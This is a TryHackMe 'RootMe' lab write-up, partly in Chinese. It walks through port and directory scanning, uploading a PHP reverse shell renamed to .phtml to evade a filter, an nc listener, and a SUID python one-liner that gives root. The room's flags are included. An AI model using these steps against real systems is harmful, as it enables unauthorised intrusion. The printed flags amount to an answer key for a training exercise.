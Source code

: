 # RootMe

###### tags: `Tryhackme` `Hacking`
---
**1. Scan the machine, how many ports are open?**
    ~ 2
    * Command: sudo nmap -sS -sV -T4 -vv -p- 10.10.231.81 -oN portscan.txt
**2. What version of Apache is running?**
    ~ 2.4.29
    
**3. What service is running on port 22?**
    ~ ssh

**4. What is the hidden directory?**
    ~ /panel/
    * Command: gobuster dir -w /usr/share/dirb/wordlists/common.txt -u http://10.10.231.81 -t 20 -o gobusterscan.txt

**5. Find a form to upload and get a reverse shell, and find the flag.**
    ~ THM{y0u_g0t_a_sh3ll}
    * 下載php-reverse-shell.php並修改內容
![](https://i.imgur.com/1aEdeeP.jpg)

    * 將php-reverse-shell.php 改名為 php-reverse-shell.phtml
    * Command: mv php-reverse-shell.pHP php-reverse-shell.phtml
    * 原因請參考下圖: 
![](https://i.imgur.com/WSnriLt.png)

    * 然後到http://10.10.231.81/panel/ 上傳此檔
![](https://i.imgur.com/DpA0M2D.jpg)

    * 開啟監聽
    * Command: nc -lvnp 9999
    * 到http://10.10.231.81/uploads/ 點選剛剛上傳的檔案
    * 這時候就可以控制target機器了
![](https://i.imgur.com/raz5MCZ.jpg)
    
    * 用find找user.txt，會發現剛檔在/var/www裡面
![](https://i.imgur.com/InvYcZs.jpg)

**6. Search for files with SUID permission, which file is weird?**
    ~ /usr/bin/python
    * Command: find / -user root -perm /4000 > find.txt
![](https://i.imgur.com/YAz6tQc.jpg)

**7. root.txt**
    ~ THM{pr1v1l3g3_3sc4l4t10n}
    * Command: ./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
![](https://i.imgur.com/Spr72ma.jpg)

